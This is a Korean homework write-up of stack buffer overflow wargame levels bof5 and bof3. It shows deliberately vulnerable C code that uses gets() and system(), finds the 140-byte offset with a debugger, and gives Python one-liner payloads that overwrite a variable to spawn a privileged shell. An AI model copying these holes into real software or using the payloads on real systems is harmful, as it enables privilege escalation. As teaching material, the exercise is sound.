 # Report. HW6.

## `bof5`

<details><summary>`bof5.c`</summary>
<p>
    
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define G "\033[32m"
#define Y "\033[33m"
#define E "\033[0m"

void vuln() {
    int innocent;
    char buf[BUF_SIZE];
    
    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent == KEY) {
        if (setreuid(1006, 1006)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1006, 1006)) {
            perror("setgid");
            exit(1);
        }
        system(buf);
    }
}

int main(){
    vuln();
    return 0;
}
```

</p></details>

### 이전과의 차이점
- `bof4`는 argument로 문자열을 넘겨주었지만, 이번엔 *프로그램 내 입력*을 통하여 문자열을 넘겨주어야 한다.
- `system("/bin/sh")`을 통하여 BOF가 발생했을 경우 그 안에서 쉘을 실행하는 구문이 이번엔 `system(buf)`으로 바뀌었다. 그러니까, *입력을 통해* `/bin/sh`을 실행하여야 한다.

### 진행
그래서... 이번에도 `buf`와 `innocent` 간에 거리가 얼만큼 되는지 알아보아야 한다.

문자열을 입력받는 `gets`

    0x555555555244  <vuln+27>       lea rax, [rbp-0x90]
    0x55555555524b  <vuln+34>       mov rdi, rax
    0x55555555524e  <vuln+37>       mov eax, 0x0
    0x555555555253  <vuln+42>       call 0x5555555550f0 <gets@plt>
    
... 부분에서, `$rdi`가 가리키는 주소 `$rbp - 0x90` 주소를 찾아보니 주소값 `0x00007fffffffe400`이 나왔다. 여기가 `buf`의 시작주소일 것이다.

그리고 `innocent`와 `KEY`를 비교하는 부분

    0x555555555273  <vuln+74>       cmp DWORD PTR [rbp-0x4], 0x12345678
    
...에서 `innocent`가 있는 주소값 `$rbp - 0x4`가 가리키는 곳을 찾아보니 주소값 `0x00007fffffffe48c`가 나왔다. `buf`에서 **140** 만큼의 주소값 차이가 존재한다. 그러니까... `gets`를 통해 140글자를 입력하고 뒤에 `KEY` 값을 넣어줘야 `innocent == KEY`가 `true`가 되어 그 안에 있는 코드가 실행될 것이다.

입력할 때 앞에 "/bin/sh; "를 붙여주자(그래야 쉘이 안에서 실행된다). 그리고... 중간에 있는 내용들은 #로 채워놓자(그래야 쉘이 실행되고 아무것도 실행하지 않게 - 중간에 채워놓은 #들 때문에 주석처리가 되어 아무것도 실행을 하지 않게 - 된다. 그 다음에 `innocent`에 들어갈 비교값 `0x12345678`을 **little-endian** 방식으로 입력을 시켜주고.

위의 말을 코드로 바꾸면, `"python -c ('/bin/sh; ' + '#' * 131 + '\x78\x56\x34\x12')"`의 결과물을 `bof5`의 입력값으로 주면 될 것이다.

![bof5_input_done](./HW6_screenshots/HW6_1.png)

성공했다. (`bof6` 비밀번호는 일부러 잘랐다)

## `bof3`

<details><summary>bof3.c</summary>
<p>

```c
// AFTER => bof2.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x61
#define G "\033[32m"
#define E "\033[0m"
#define Y "\033[33m"

void vuln() {
    int innocent;
    char buf[BUF_SIZE];

    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent  == KEY) {
        if (setreuid(UID_BOF4, UID_BOF4)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(UID_BOF4, UID_BOF4)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(){
    vuln();
    return 0;
}
```

`bof5`를 먼저 작성하고 `bof3`을 보았더니 `KEY`와 `system("/bin/sh")` 부분을 제외하고 다른 부분이 없...다. 그래서 풀이 방법도 비슷하다고 생각했는데, 우선... `innocent`와 `buf`의 주소값을 알아보자.

`bof5` 때와 같은 부분에서 `gets`가 참고하는 `$rdi`가 가리키는 주소 `$rbp - 0x90`의 주소값은 `0x00007fffffffe400`이 나왔고, `innocent`와 `KEY`를 비교하는 부분에서 `$rbp - 0x4`의 주소값으로 `0x00007fffffffe48c`가 나왔다. 여기도 동일하게 주소값 차이는 140이 나왔고.

`KEY`는 `0x61`... 그러니까 `0x00000061`인데, little-endian 방식으로라면 `\x00\x00\x00\x61`이 아니라 그냥 `\x61`만 주면 될 것이다.

위의 말을 코드로 바꾸면, `"python -c ('a' * 141)"`의 결과물을 `bof3`의 입력값으로 주면 될 것이다. (`0x61`은 소문자 `a`)

![bof3_input_done](./HW6_screenshots/HW6_2.png)

성공했다.

## `bof4`

# -- END --

